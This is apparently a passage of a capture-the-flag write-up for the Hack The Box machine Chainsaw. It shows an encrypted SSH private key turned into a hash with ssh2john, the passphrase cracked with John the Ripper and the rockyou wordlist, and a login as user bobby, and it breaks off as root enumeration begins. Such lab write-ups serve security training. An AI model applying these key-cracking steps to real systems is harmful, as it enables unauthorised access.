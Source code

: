 ###### Cracking SSH Keys

The file is encrypted with triple DES in CBC mode. To decrypt the key we need to use ssh2john and convert the encrypted RSA Private Key into a hash format and feed it to JTR.

```python

➜  chainsaw python ssh2john.py bobby.key.enc.b64 > bobby_hash                     

```
After few seconds the key is cracked and password is **jackychain**

```python

➜  chainsaw john --wordlist=/usr/share/wordlists/rockyou.txt  bobby_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
jackychain       (bobby.key.enc.b64)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:16 DONE (2020-06-10 05:11) 0.05938g/s 851644p/s 851644c/s 851644C/sa6_123..*7¡Vamos!
Session completed
```

###### Getting user.txt

Now I can connect as bobby and grab user.txt 

```python

➜  chainsaw ssh -i bobby.key.enc.b64 bobby@10.10.10.142
Enter passphrase for key 'bobby.key.enc.b64': 
bobby@chainsaw:~$ id
uid=1000(bobby) gid=1000(bobby) groups=1000(bobby),30(dip)
bobby@chainsaw:~$ wc -l user.txt 
1 user.txt

```

#### Privilege Escalation (root)

During the enumeration for root i noticed few interesting files in bobbys home. In addition to user.txt, there are two folders in bobby’s homedirectory:

```python

bobby@chainsaw:~$ ls
projects  resources  user.txt
bobby@chainsaw:~$ 
```
Resources folder contains documentation related to IPFS:

